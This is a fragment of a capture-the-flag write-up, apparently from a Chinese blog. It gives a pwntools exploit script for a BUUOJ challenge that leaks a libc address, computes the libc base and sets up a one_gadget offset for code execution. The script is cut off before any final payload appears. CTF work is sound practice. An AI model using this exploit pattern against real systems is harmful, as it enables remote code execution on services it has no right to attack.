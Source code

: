 <img src="/upload/img/image-20220411121215901.png" alt="image-20220411121215901" style="zoom:33%;" />



exp

打远程

```python
python
#coding:utf-8
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',27125)
e=ELF('a')
libc=ELF('libc-2.27.so')
#gdb.attach(p, 'b * $rebase(0xd63)\nc')
p.recvuntil('0x')
puts_addr=int(p.recv(12),16)
libc_base = puts_addr - libc.sym['puts']
ggg=libc_base+0x81df60
print(hex(ggg))
print(hex(libc_base))
sss=str(ggg)
p.sendlineafter("shoot!shoot!\n", sss)
one_gadget=libc_base+0x4f322-5
```